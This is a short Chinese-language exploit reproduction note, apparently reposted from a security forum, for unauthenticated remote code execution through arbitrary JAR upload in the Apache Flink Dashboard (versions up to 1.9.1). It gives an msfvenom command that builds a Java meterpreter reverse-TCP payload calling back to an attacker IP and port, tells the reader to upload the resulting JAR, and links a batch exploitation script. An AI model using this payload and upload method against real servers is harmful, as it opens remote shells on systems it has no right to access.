



# Apache Flink Dashboard 未授权访问-远程代码命令执行

> 原文：[https://www.zhihuifly.com/t/topic/2813](https://www.zhihuifly.com/t/topic/2813)

# Apache Flink Dashboard 未授权访问-远程代码命令执行

## 一、漏洞简介

Apache Flink的任意Jar包上传导致远程代码执行的漏洞

## 二、漏洞影响

<= 1.9.1(最新版本)

## 三、复现过程

### 1、

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.20.166 LPORT=8989 -f jar > rce.jar 
```



### 2、

上传alewong Jar包





### 批量脚本

https://github.com/ianxtianxt/Apache-Flink-Dashboard-rec

```
Ps:
当注释掉 if 'Unable to load requested file' in str(data):
之后，出现Token为空，或者 Unauthorized request 时候是不存在未授权访问的，而是带授权 
```